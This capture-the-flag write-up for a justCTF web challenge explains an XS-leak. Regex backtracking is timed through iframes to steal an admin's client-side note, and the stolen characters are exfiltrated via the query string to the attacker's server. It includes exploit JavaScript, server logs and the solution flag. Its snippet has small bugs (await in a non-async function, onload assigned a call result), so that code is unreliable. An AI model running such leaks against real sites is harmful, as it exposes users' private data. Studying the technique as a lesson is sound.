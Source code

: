 # Computeration (Fixed)
**Catagory:** Web
**Difficulty:** Hard
>  Can you get admin's note? I heard the website runs only on client-side so should be secure...   https://computeration-fixed.web.jctf.pro/  
If you find anything interesting give me call here: https://computeration-fixed.web.jctf.pro/report

>The flag is in the format: justCTF{[a-z_]+}.

**note**: I didn't solve this challenge during the CTF, but as a web-noob I wanted to create a writeup that was as bit more noob-friendly for my fellow web-noobs.

## Recon: The Webapp
Let's start by taking a look at the source of the webapp. There are a couple things to note right out of the gate:  
1. The `x-frame-options` is not set, so we can `iframe` the webapp to our hearts content _(foreshadowing?)_
2. Notes are indeed client-side, and reside in the sessions localStorage:

```js
let notes = JSON.parse(localStorage.getItem('notes')) || [];
```

3. Neither note creation, nor rendering is properly sanitized, however this is not useful as there is no way to turn this into anything other than a self-XSS.

4. Searching for notes uses the "hash" part of the current url and may contain regexes.
```js
function searchNote(){
    location.hash = searchNoteInp.value;
}

// triggers when the hash _changes_. Note that the initial page load is not considered a "hash change"
onhashchange = () => {
    // example.com#search_regex -> search_regex
    const reg = new RegExp(decodeURIComponent(location.hash.slice(1)));
    const found = [];
    // Compare the contents of all notes to the provided regex,
    // If they match, add their title to the "found" list
    notes.forEach(e=>{
        if(e.content.search(reg) !== -1){
            found.push(e.title);
        }
    });
    notesFound.innerHTML = found;
}
```

Being able to control the search by url will become important later, because it allows us to interact with the webapp, even if we can only control the url.

## Recon: The Report Function
Let's now focus on the second part of the challenge:
> If you find anything interesting give me call here: https://computeration-fixed.web.jctf.pro/report

If we visit the report link, we are greeted by a form where we can input a url for the admin to inspect. Let's first test if there are any restriction on the report url.  
First, start a `nc` listener on a publicly reachable IP and port. Then submit `http://[IP]:[Port]` to the admins form. Within a few seconds, the `nc` terminal shows that the admin has connected to our server.  
Nice! this means that we can create our own malicious webpage and submit it for review later.

## The Vulnerability
The main vulnerability in the webapp is that we can make another user perform a search on their private data, using a regex that we provide.  
  
This is an issue, because we can construct regexes that can take a long time to complete, if and only if, they match a certain prefix. We can abuse this to leak the flag char by char, based on how long it takes to perform a search.  
  
Here is an example of such a regex:
```js
// Prefix: "justCTF"
// Guess : "a"
let regex = "^(?=justCTF{a).*.*.*.*.*.*.*.*.*.*ABCDE";
```
If the flag does not start with "justCTF{a", the regex engine will quickly return with no matches. However, if the flag does start with "justCTF{a", the regex engine suddenly needs to evaluate an exponential number of ways to match the flag with the ".\*"-chain.  

The final secret-sauce is the last part of the regex. Without it, the engine can instantly return a match, since the flag matches `^justCTF{a.*`.


## Exploitation
> Full exploit code is [available on github](https://github.com/rickdejager/CTF/JUSTCAT2020/web/computernation/code), this section will cover only the juicy parts.  

### The Game Plan
1. Load an `iframe` that contains the webapp.
1. Perform a regex search in the `iframe` to guess the next character of the flag.
1. Queue another task and measure how long it takes to complete.
1. Use the measurement to estimate how long the regex search took to complete, which confirms or rejects your guess.

Initially, I used an `async` function with a timeout to perform measurements. However, this approach only works in the challenge server is single threaded. Otherwise the measurement will simply be performed on another thread due to "Site Isolation" (see [xsleaks](https://xsleaks.dev/docs/attacks/timing-attacks/execution-timing/)).  
  
In a nutshell, Chrome isolates javascript processes by their respective domains, so we need a way to create a task under the challenge servers domain. To do this, we will just load a new `iframe` with `src=https://computeration-fixed.web.jctf.pro/#` for each guess.

### Guessing The Next Character

The following two functions are used to guess a character. The `delta` and  `threshold` values, as well as the "difficulty formula" are chosen such that a successful guess takes ~200ms, while a failure takes only a few ms at most.  

```js

function testChar(c) {
  // Measure the initial time
  var start = performance.now();

  // Perform a slow regex search in the iframe
  // The number of ".*"'s goes up as we learn more of the flag, to keep the
  // regex sufficiently difficult.
  var dif = 6 + Math.floor(Math.log(known.length) / 2);
  var regex = "^(?="+known+c+")"+ ".*".repeat(dif) +"ABCDE$";
  ifr.src = url+encodeURIComponent(regex);
  // Sleep for a few ms, to ensure the regex engine is churning when we load the second iframe
  await sleep(delta);

  // Setup a measurement by creating a new iframe on the challenge domain.
  var ifr2 = document.createElement('iframe');
  ifr2.src = url;
  ifr2.onload = measure(start, c);
  document.body.appendChild(ifr2);
}

async function measure(start, c) {
  var time = performance.now() - start - delta;
  console.log("[%s: %d ms] %s", c, time, known);


  // This took longer than usual, indicating regex-bullshittery
  if (time > threshold) {
    // Add the current flag to the url so we can see it in our server logs
    window.location = window.location.origin + window.location.pathname + "?" + known + c;
    // Update the "known" variable with the new character
    known = known + c;
  }
}

```


This code is easily turned into a bruteforcer by looping over the entire alphabet and testing each character. Note that you must also exfiltrate the flag somehow. I chose to save it in the query string, which shows up in most webserver logs.


### Hosting the exploit
To host this exploit, create a simple webpage that loads the exploit script. This webpage must never finish loading, since the bot will leave our site when it does. This can be fixed by adding an image that loads slowly.
```html
<img src="https://deelay.me/10000/http://example.com"/>
```

Now we are ready to actually host our exploit, which we can do with pythons webserver for example. Next, we send the admin a link to our hosted page. Within a few seconds, the admin connects and we start to receive parts of the flag.  

The admins connection will timeout at some point, so it is important that the exploit code reads the partial flag from the query string such that it can resume. Using the above code you can leak about two or three characters per attempt.
```
ctf@ctf-vps:~/justCAT$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
[...]
206.189.107.148 - - [05/Feb/2021 16:56:24] "GET /hack.html?justCTF{no_refere HTTP/1.1" 200 -
206.189.107.148 - - [05/Feb/2021 16:56:32] "GET /hack.html?justCTF{no_referer HTTP/1.1" 200 -
206.189.107.148 - - [05/Feb/2021 16:56:35] "GET /hack.html?justCTF{no_referer_ HTTP/1.1" 200 -
[...]
206.189.107.148 - - [05/Feb/2021 16:58:03] "GET /hack.html?justCTF{no_referer_typo_ehhhhhh HTTP/1.1" 200 -
206.189.107.148 - - [05/Feb/2021 16:58:07] "GET /hack.html?justCTF{no_referer_typo_ehhhhhh} HTTP/1.1" 200 -
```

```
flag: justCTF{no_referer_typo_ehhhhhh}
```


## Acknowledgement and Links
I wrote this writeup after the CTF was over, mainly to gain a better understanding of web challenges. I started by reading the [writeup written by the challenge author](https://ctftime.org/writeup/25869), which also contains a lot of links to other great resources.  

